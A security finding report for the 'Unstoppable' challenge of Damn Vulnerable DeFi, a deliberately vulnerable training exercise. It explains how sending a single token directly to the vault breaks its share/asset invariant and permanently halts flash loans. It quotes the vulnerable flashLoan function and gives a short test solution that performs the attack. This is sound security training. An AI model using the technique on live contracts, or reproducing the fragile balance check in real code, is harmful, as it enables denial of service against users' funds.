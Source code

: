 ```yaml
---
title: Damn Vulnerable DeFi Unstoppable Finding Report
author: Elia Bordoni
date: October 28, 2025
header-includes:
  - \usepackage{titling}
  - \usepackage{graphicx}
---
```


\begin{titlepage}
\centering
\begin{figure}[h]
\centering
\includegraphics[width=0.5\textwidth]{logo.pdf}
\end{figure}
\vspace*{2cm}
{\Huge\bfseries Damn Vulnerable Defi Finding Report\par}
\vspace{1cm}
{\Large Version 1.0\par}
\vspace{2cm}
{\Large\itshape Elia Bordoni\par}
\vfill
{\large \today\par}
\end{titlepage}

\maketitle

Prepared by: [Elia Bordoni](https://elia-bordoni-blockchain-dev.netlify.app/)

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Exercise Summary](#exercise-summary)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Tool Used](#tool-used)
- [Findings](#findings)
  - [\[S-H\] DOS due to inveariant breaks](#s-h-dos-due-to-inveariant-breaks)

# Exercise Summary

There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.
To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There’s a monitoring contract to check liveness of the flashloan feature.
Starting with 10 DVT tokens in balance, show that it’s possible to halt the vault. It must stop offering flash loans.

# Audit Details

## Scope

- Unstoppable.sol

## Tool Used

- manual review

# Findings

### [S-H] DOS due to inveariant breaks

**Description** The vault relies on the invariant that the total number of shares must always correspond to the total value of the underlying tokens. When users call the `UnstoppableVault::deposit` function, they receive share tokens that maintain this 1:1 relationship between shares and underlying assets.
However, the contract also exposes a `UnstoppableVault::transfer` function. If an external user directly transfers even a single underlying token to the vault, the invariant will be permanently broken, as the contract’s balance of underlying tokens will exceed the value represented by the total supply of shares.

<details>
<summary>vulnerability</summary>

```javascript
 function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        //@audit-issue this is the vulbnerable line, attacker can break  it sending tokens directly to the vault
@>      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```

</details>

**Impact** This results in a permanent Denial of Service (DOS) for the flash loan functionality, since the check
`convertToShares(totalSupply) == totalAssets()` will always fail.

**ProofOfConcept** Add the following to the `Unstoppable.t.sol` test file on `Unstoppable.t.sol::test_unstoppable` and run the test. Check log to see `UnstoppableVault::convertToShares(totalSupply)` and `UnstoppableVault::totalAssets()` values.

<details>
<summary>Test Code</summary>

```javascript
    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        token.transfer(address(vault), 1);
        console.log("total supply convertToShares: ", vault.convertToShares(vault.totalSupply()));
        console.log("total assets:                ", vault.totalAssets());
    }
```

</details>
